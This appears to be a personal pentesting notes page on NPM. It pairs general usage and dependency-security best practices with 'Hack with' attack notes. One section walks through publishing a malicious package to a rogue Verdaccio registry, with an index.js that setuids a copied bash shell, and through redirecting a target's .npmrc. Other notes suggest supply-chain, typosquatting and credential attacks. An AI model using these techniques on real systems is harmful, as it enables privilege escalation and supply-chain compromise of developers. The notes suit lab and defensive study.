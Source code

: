 
# NPM

NPM (Node Package Manager) is the packet manager for [[NodeJS]] applications.

General usage:
```bash
npm init -y # Initialise
npm install --save ../Logger
# Verify module installation
node 
> module.paths 
# Link instead of install for large depenedency and development "reasons.."
npm link # to link the module
```

#### Malicious NPM Package

Enumerate vulnerable packages
```bash
# Search a registry
npm search ---registry http://$target:$port
# Install packet to registry
npm install $package --registry $registry
```

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)

Using Verdaccio as an example to create a registry to host packages
```bash
# Example assumes you have access
# Pull the latest version
sudo docker pull verdaccio/verdaccio
# Run -it sudo tty --rm to delete when done, bind port to host
sudo docker run -it --rm --name verdaccio -p 4873:4873  verdaccio/verdaccio
# Update auth and flag that exists for legacy authentication 
nmp adduser --registry http://10.10.10.10 --auth-type=legacy
# cat ~/.npmrc for authToken
# Initialise a Malicious NPM Package
npm init 
# Version > target npm 
# make index.js
'require("child_process").exec("chown root:root /tmp/shell;chmod 4755 /tmp/shell")'

npm login --registry http://10.10.10.10:4873 --auth-type=legacy
npm publish --registry http://10.10.10.10:4873

# Target
# update Target.npmrc 
sed -i 's/127.0.0.1/10.10.14.43/g' /home/kavi/.npmrc
# Copy bash for setuid 
cp /bin/bash /tmp/shell
```


#### NPM Dependency Best Practices plus Hacking and Mitigating

[notes.aliciasykes.com Blog - NPM Dependency Best Practices](https://notes.aliciasykes.com/28300/npm-dependency-security-best-practices):

Check Outdated Depencies
```bash
yarn outdated
npx npm-check # --update update as you check..
```
Hack with: Patch level, dork exploits and craft your own if you have too.

Remove Unused Packages - `npx` [GitHub depcheck](https://github.com/depcheck/depcheck)
```bash
npx depcheck
yarn dedup
```
Hack with: if it ain't in use it is not managed and probably misconfigured

Audit Package Security - [[Snyk]] `test`
```
yarn audit
yarn audit fix
```
Hack with: Auditing with just with tools is not really audit, go the extra mile

Migrate and use other well maintained packages; `lissy93`: *""Stats" section of the npm’s package page, or using [npm-stat.com](https://npm-stat.com/) for historic download data"*
Hack with: malicious `npm` should try to be small if you are there to persist

Analyse package size to manage bloat with [Bundlephobia](https://bundlephobia.com/) or:
```
npx cost-of-modules
```
Hack with: malicious `npm` should try to be small if you are there to persist

Respecting Package Licenses 
```
npx license-checker
```
Hack with: if there are GPL or MIT license then you do not need to ask for demo software and its FOSS so download and perform static and dynamic analysis

Ignore Run Scripts
```bash
echo "ignore-scripts" | tee *.nmprc
```
Hack with: people are more likely to be lazy and not read these, check permissions as if they are used through continuously minor versions there is `+wrx`, which guaranteed root /system dance. 

Package Health Checks
```
npm doctor
```
This does the following:
- Check the official `npm` registry is reachable, and display the currently configured registry.
- Check that Git is available.
- Review installed `npm` and Node.js versions.
- Run permission checks on the various folders such as the local and global `node_modules`, and on the folder used for package cache.
- Check the local `npm` module cache for checksum correctness.
Hack with: if persisting in a module the main issue is with how checksums are handled, can you file tamper their checksums? 

New Packages:
- When was it last updated?
- How often are releases published?
- How many developers have contributed to it? (More is better, as there is a lower risk of the project being abandoned, and a higher chance that issues are spotted).
- How many open issues are there?
- Does it have a security policy?
- Any open or recent security advisories?
- Is it correctly using semantic versioning?
- Is it thoroughly tested?
- Does it use many additional dependencies? If so, are they to be deemed trustworthy?
- How many other projects rely on it?
- Is it frequently downloaded? (Check the "Stats" section of the NPM page, or use [npm-stat.com](https://npm-stat.com/))
- Is the code clear and readable? If it is, then issues will be much easier to spot
- Is the license compatible with your project, and have you acknowledged the terms (e.g. attribution)
- How large is the package? And how will this affect your project's bundle size
Hack with: Supply chain attacks

Strict installs
```
npm ci
yarn install --frozen-lockfile
```
Hack with: fix their buggy JavaScript for them so they do not find your code with this tool

Lockfiles
```
yan.lock
npm-lock.json
```
Hack with: Social Engineer a Supply Chain attack thorough ultimately targeting at some point these Lockfiles that will be controlled by committee, **do not tamper they backed to cloud repos like git**   

Registry 
[Verdaccio](https://github.com/verdaccio/verdaccio)
Hack with: see Malicious NPM Package

Dependency Inversion Principle
- Writing small, maintainable, tested, single-purpose packages by SOLID Principles 
Hack with: Supply chain attack no the communal issues of using SOLID and DRY code, i.e invent or hijack the wrapper used to do some level lower task to fit with some original target... Primagen (NPM dev ..btw) comments on this principle of DRY and SOLID being bad in this way 

Secure your NPM Accoun
- Proper Authentication
Hack with: Authentication attacks specifically OSINTable passwords, Developers blog and share a lot that could end up being part of a password, or them or their automation with [[Coerced-Authentication]].

Typo-squatting Attacks
Protect with 
- Take care when copying and pasting commands into the terminal and always verify the source of the repo that you are installing via `npm info`.
- Default to having an npm logged-out user in your daily work routines so your credentials won’t be the weak spot that would lead to easily compromising your account.
- Consider appending the `--ignore-script` flag when installing packages, to prevent them from executing arbitrary code.
Hack with: Depending on target make sure the entire package is full of a different alphabet, if you must Typo-squat attack the buffers for editors like vim, emac, vs-code, Linux generally such that on *paste* is also *execute* `joke: exec(*char i, int 66, order []char)` 

More `Lissy93` Tips and Tricks:
- Use any NPM CLI package, without having to first install it, using `npx`
- While developing multiple packages simultaneously, [yarn link](https://classic.yarnpkg.com/en/docs/cli/link/) is useful for creating symbolic links between them
- Due to how NPM dependencies are structured, if you've been working on a lot of projects, you can find your disk space frequently running low. [NPKill](https://npkill.js.org/) is a handy CLI util, to find all node_modules directories for easy deletion of the ones you no longer need. Just run `npx npkill` to get started. You can also [do this nativley](https://listed.to/@lissy93/16988/how-to-remove-all-node_modules-folders)
- To open the GitHub page for any package, just run `npm docs [package-name]`
- If your facing any issues with NPM, then running `npm doctor` with troubleshoot common issues, and output the likely fix
- List all installed packages in a tree structure with `npm ls`
- Many of the NPM short commands can be grouped together, for example `npm cit` is the same as fresh install and run tests
- When working with mono-repos or multiple packages, you can use the `--prefix [./path/to/dir]` flag to run NPM commands in other directories, without having to cd
- To view all valid release versions of a given package, run `npm view [package-name] versions`, or `yarn info [package-name] versions`
- View a tree of dependencies for any package, with [npmgraph.js.org](https://npmgraph.js.org/)
- Use different NPM versions for different projects easily with [Volta](https://volta.sh/)
- More info can be found for any CVE via [cvedetails.com](https://www.cvedetails.com/) or using [GitHub Advisories](https://github.com/advisories).
## References

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)
[notes.aliciasykes.com Blog - NPM Dependency Best Practices](https://notes.aliciasykes.com/28300/npm-dependency-security-best-practices)
[GitHub depcheck](https://github.com/depcheck/depcheck)
[Bundlephobia](https://bundlephobia.com/)